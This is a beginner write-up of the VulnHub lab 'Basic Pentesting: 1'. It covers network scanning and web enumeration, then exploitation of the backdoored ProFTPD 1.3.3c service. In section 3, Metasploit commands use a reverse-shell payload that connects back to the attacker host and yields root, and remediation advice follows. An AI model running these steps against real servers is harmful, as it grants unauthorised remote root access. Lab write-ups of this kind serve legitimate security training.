





# Basic Pentesting: 1 — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Beginner | **Target IP:** 192.168.32.133 | **Attacker IP:** 192.168.32.128

## Machine info


## Summary

**Basic Pentesting: 1** is a Beginner VulnHub machine built around a backdoored ProFTPD service. Reconnaissance revealed three open ports: FTP, SSH, and HTTP. The web server only exposed a default Apache page and an unmodified WordPress install with no useful content. The FTP service, however, was running ProFTPD 1.3.3c, a version whose source tarball was replaced with a backdoored copy on the official ProFTPD distribution server for a few days in December 2010 (CVE-2010-20103). Triggering the backdoor through Metasploit granted an immediate root shell, with no privilege escalation required.

**Attack chain:** Nmap recon → Web enumeration (gobuster) → FTP service fingerprinting (ProFTPD 1.3.3c) → ProFTPD backdoor exploitation (Metasploit) → Root shell

## 1. Reconnaissance

Since the target's IP was not provided, arp-scan was used to identify it on the network.

```
sudo arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ba:10:0a, IPv4: 192.168.32.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.32.1    00:50:56:c0:00:01      VMware, Inc.
192.168.32.133  00:0c:29:4e:0c:53      VMware, Inc.
192.168.32.254  00:50:56:e7:4d:8a      VMware, Inc.
3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.998 seconds (128.13 hosts/sec). 3 responded
```



```
ping -c 1 192.168.32.133
PING 192.168.32.133 (192.168.32.133) 56(84) bytes of data.
64 bytes from 192.168.32.133: icmp_seq=1 ttl=64 time=0.469 ms

--- 192.168.32.133 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.469/0.469/0.469/0.000 ms
```



```
nmap -p- -sS -sV -sC -vvv --min-rate 3000 -oN scan.txt 192.168.32.133
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 ProFTPD 1.3.3c
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:4E:0C:53 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Enumeration

The web server on port 80 only showed the default Apache placeholder page.



Directory brute-forcing with gobuster uncovered a path not linked from the page.

```
gobuster dir -u http://192.168.32.133/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
secret               (Status: 301) [Size: 317] [--> http://192.168.32.133/secret/]
server-status        (Status: 403) [Size: 302]
```

`/secret/` turned out to be a default WordPress installation with no custom content, and `/server-status` was forbidden. Neither path led anywhere further, so the web attack surface was set aside in favor of FTP.



## 3. FTP Service Exploitation

The nmap scan fingerprinted ProFTPD 1.3.3c on port 21. Attackers compromised the official ProFTPD distribution server and replaced the legitimate 1.3.3c source tarball with a backdoored copy for a few days in December 2010. Any build compiled from that window contains a hidden command that grants unauthenticated remote root access (CVE-2010-20103).

```
msf > search ProFTPD 1.3.3c
0  exploit/unix/ftp/proftpd_133c_backdoor  2010-12-02  excellent  Yes  ProFTPD 1.3.3c Backdoor Command Execution

msf > use 0
msf exploit(unix/ftp/proftpd_133c_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(unix/ftp/proftpd_133c_backdoor) > set lhost 192.168.32.128
lhost => 192.168.32.128
msf exploit(unix/ftp/proftpd_133c_backdoor) > set rhosts 192.168.32.133
rhosts => 192.168.32.133
msf exploit(unix/ftp/proftpd_133c_backdoor) > exploit
[*] Started reverse TCP double handler on 192.168.32.128:4444
[*] 192.168.32.133:21 - ProFTPD 1.3.3c detected, testing for backdoor command...
[+] 192.168.32.133:21 - The target appears to be vulnerable.
[*] 192.168.32.133:21 - Sending FTP command to trigger backdoor
[*] Command shell session 1 opened (192.168.32.128:4444 -> 192.168.32.133:32982)
```

The backdoor executed the payload directly as root, with no further privilege escalation needed.

## 4. Post Exploitation

The shell was stabilized for interactive use:

```
script /dev/null -c bash
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| The ProFTPD 1.3.3c binary was compiled from a source tarball that attackers replaced with a backdoored copy on the official distribution server, exposing a hidden command that grants unauthenticated remote root access | Verify GPG signatures/checksums against the official ProFTPD project before compiling any release, and upgrade to a current, non-backdoored version |
| FTP service exposed directly to the network with no additional hardening | Restrict FTP access to trusted hosts/VPN, disable anonymous/legacy services not in use, and monitor for anomalous FTP commands |
